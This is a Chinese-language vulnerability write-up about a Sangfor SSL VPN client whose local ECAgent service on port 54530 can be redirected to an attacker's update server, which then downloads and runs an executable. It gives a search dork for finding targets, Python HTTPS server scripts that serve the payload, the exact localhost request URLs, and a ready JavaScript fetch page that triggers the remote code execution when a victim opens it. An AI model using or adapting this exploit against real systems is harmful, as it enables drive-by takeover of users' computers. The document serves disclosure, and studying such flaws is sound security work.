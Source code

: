 # 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

> [!NOTE]
>
> 深信服 SSL VPN

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：

![](image/sxf-3.png)

安装完之后访问VPN的页面，发现VPN会自动下载组件更新：

![](image/sxf-4.png)

这些请求均为GET请求并附带着一些参数，我们把它一一列下来：

![](image/sxf-5.png)

本地来看一下这个`54530`端口对应的进程是什么：

![](image/sxf-6.png)

发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：

![](image/sxf-7.png)

确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。

通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。

再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：

```
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```

第一个初始化的请求存在可控参数arg1：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```

参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：

```
python -m SimpleHTTPServer
```

其他的请求原封不动，依次请求一遍那一份URL

服务端成功收到请求，但是却出现了错误的提示：

![](image/sxf-8.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。

现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。

如下脚本基于Python库建立一个 HTTPS 服务：

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：

![](image/sxf-9.png)

可以看见客户端会访问两个文件：

```
/com/WindowsModule.xml
/com/win/XXXUD.exe
```

先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：

```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。

最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。

依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```

会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：

![](image/sxf-10.png)

Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：

```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```

其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。

![](image/sxf-11.png)

## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg